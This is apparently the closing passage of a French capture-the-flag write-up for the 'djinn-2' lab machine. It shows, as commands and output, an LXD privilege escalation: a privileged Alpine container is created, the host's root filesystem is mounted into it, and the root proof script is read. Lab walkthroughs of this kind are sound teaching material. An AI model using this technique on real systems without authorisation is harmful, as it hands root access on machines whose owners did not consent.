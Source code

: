 Puis une fois les fichiers uploadés sur la VM j'importe l'image, je la monte avec le système de fichier hôte et je la lance avec un shell :

```bash
nitish@djinn:~$ lxc image import ./alpine*.tar.gz --alias myimage
Image imported with fingerprint: 7b13e5f8c76ca3ec153528e73dbb748daf7deef0dc8b3bb683681f98b66c1b49
nitish@djinn:~$ lxc image list
+---------+--------------+--------+-------------------------------+--------+--------+------------------------------+
|  ALIAS  | FINGERPRINT  | PUBLIC |          DESCRIPTION          |  ARCH  |  SIZE  |         UPLOAD DATE          |
+---------+--------------+--------+-------------------------------+--------+--------+------------------------------+
| myimage | 7b13e5f8c76c | no     | alpine v3.13 (20210218_01:39) | x86_64 | 5.63MB | Nov 25, 2022 at 2:44pm (UTC) |
+---------+--------------+--------+-------------------------------+--------+--------+------------------------------+
nitish@djinn:~$ lxd init
Would you like to use LXD clustering? (yes/no) [default=no]: 
Do you want to configure a new storage pool? (yes/no) [default=yes]: 
Name of the new storage pool [default=default]: 
Name of the storage backend to use (btrfs, dir, lvm) [default=btrfs]: 
Create a new BTRFS pool? (yes/no) [default=yes]: 
Would you like to use an existing block device? (yes/no) [default=no]: 
Size in GB of the new loop device (1GB minimum) [default=15GB]: 
Would you like to connect to a MAAS server? (yes/no) [default=no]: 
Would you like to create a new network bridge? (yes/no) [default=yes]: 
What should the new bridge be called? [default=lxdbr0]: 
What IPv4 address should be used? (CIDR subnet notation, “auto” or “none”) [default=auto]: 
What IPv6 address should be used? (CIDR subnet notation, “auto” or “none”) [default=auto]: 
Would you like LXD to be available over the network? (yes/no) [default=no]: 
Would you like stale cached images to be updated automatically? (yes/no) [default=yes] 
Would you like a YAML "lxd init" preseed to be printed? (yes/no) [default=no]: 
nitish@djinn:~$ lxc init myimage mycontainer -c security.privileged=true
Creating mycontainer
nitish@djinn:~$ lxc config device add mycontainer mydevice disk source=/ path=/mnt/root recursive=true
Device mydevice added to mycontainer
nitish@djinn:~$ lxc start mycontainer
nitish@djinn:~$ lxc exec mycontainer /bin/sh
~ # ls /mnt/root/root
proof.sh  scripts
~ # . /mnt/root/root/proof.sh
/bin/sh: /mnt/root/root/proof.sh: line 9: figlet: not found
djinn-2 pwned...
__________________________________________________________________________

Proof: cHduZWQgZGppbm4tMiBsaWtlIGEgYm9zcwo=
Path: /root
Date: Fri Nov 25 14:48:18 UTC 2022
Whoami: root
__________________________________________________________________________

By @0xmzfr

Thanks to my fellow teammates in @m0tl3ycr3w for betatesting! :-)

If you enjoyed this then consider donating (https://mzfr.github.io/donate/)
so I can continue to make these kind of challenges.
```

*Publié le 25 novembre 2022*


